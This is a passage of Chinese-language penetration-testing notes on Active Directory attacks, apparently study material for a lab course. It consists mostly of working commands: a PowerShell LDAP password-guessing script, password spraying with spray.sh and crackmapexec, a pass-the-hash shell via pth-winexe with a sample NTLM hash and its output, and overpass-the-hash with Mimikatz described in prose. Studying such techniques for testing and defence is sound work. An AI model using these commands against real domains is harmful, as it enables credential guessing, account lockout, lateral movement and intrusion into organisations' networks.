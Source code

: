 一个小的powershell脚本进行密码猜测
```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
  
$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin", "Qwerty09!")
```

上面脚本如果成功则会创建对象，失败会抛出异常，超过规定次数账号会被锁定

使用自动化工具进行哈希喷洒
spray.sh
```
spray.sh -smb <targetIP> <usernameList> <passwordList> <AttemptsPerLockoutPeriod> <LockoutPeriodInMinutes> <DOMAIN>
```
crackmapexec
```
crackmapexec smb <IP> -u users.txt -p passwords.txt
```

# 横向移动

## 哈希传递（pass the hash）

注意：不适用于 Kerberos 身份验证，而仅适用于使用 NTLM 身份验证的服务器或服务

使用pth-winexe（不会新开shell，直接打开一个命令行）
```
kali@kali:~$ pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.309]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
此方法适用于 Active Directory 域帐户和内置的本地管理员帐户。自 2014 年安全更新以来，7此技术不能用于作为任​​何其他本地管理员帐户进行身份验证

## over pass hash（利用TGT）

overpass hash 技术的本质是将 NTLM 哈希转换为 Kerberos 票证，避免使用 NTLM 身份验证。一个简单的方法是再次使用 Mimikatz 的sekurlsa::pth 命令

作为第一个参数，我们指定/user:和 /domain:，分别将它们设置为jeff_admin和 corp.com。我们将使用 /ntlm:指定 NTLM 哈希，最后使用/run:指定要创建的进程（在本例中为 PowerShell）
